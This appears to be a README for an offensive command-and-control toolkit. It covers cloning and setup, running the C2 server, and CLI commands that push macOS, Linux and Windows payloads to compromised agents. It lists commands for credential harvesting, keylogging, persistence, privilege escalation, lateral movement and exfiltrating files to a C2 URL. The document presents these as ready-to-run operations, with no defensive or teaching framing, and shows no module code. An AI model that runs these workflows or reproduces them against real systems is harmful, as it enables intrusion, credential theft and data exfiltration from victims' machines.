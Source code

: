 ### Installation and Setup

1. Clone the Repository
   git clone https://github.com/4lph4-01
   cd your-repo-directory

2. Create a Virtual Environment
   python -m venv venv
   source venv/bin/activate  # On Windows, use `venv\Scripts\activate`

3. Install Dependencies
   pip install -r requirements.txt

4. Prepare Payloads (If necessary)
   Ensure your payload scripts are in the `payloads` directory:
   - payloads/macos_payload.sh
   - payloads/linux_payload.sh
   - payloads/windows_payload.ps1

### Running the C2 Server

   python c2_server.py

### CLI Usage

1. List Agents
   python cli.py list-agents

2. Deploy Payload
   python cli.py deploy-payload <agent_type>
   Replace <agent_type> with macos, linux, or windows.

3. Select and Send Commands to an Agent
   python cli.py select-agent
   You can specify the agent ID directly or choose from a list of available agents.

4. Generate Report
   python cli.py generate-report

5. Send a Specific Command
   python cli.py send-command <agent_id> <command>

### Supported Commands

Credential Harvesting
   python cli.py send-command <agent_id> cred_harvest

Persistence
   python cli.py send-command <agent_id> persistence

Privilege Escalation
   python cli.py send-command <agent_id> priv_escalation

Reconnaissance
   python cli.py send-command <agent_id> reconnaissance

Data Exfiltration
   python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url>
   Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging
   python cli.py send-command <agent_id> keylogging

Lateral Movement
   python cli.py send-command <agent_id> lateral_movement

### Modules Directory Structure
Ensure you have a modules directory with the following structure and content:
modules/
    cred_harvest.py
    persistence.py
    priv_escalation.py
    reconnaissance.py
    exfiltration.py
    keylogging.py
    lateral_movement.py

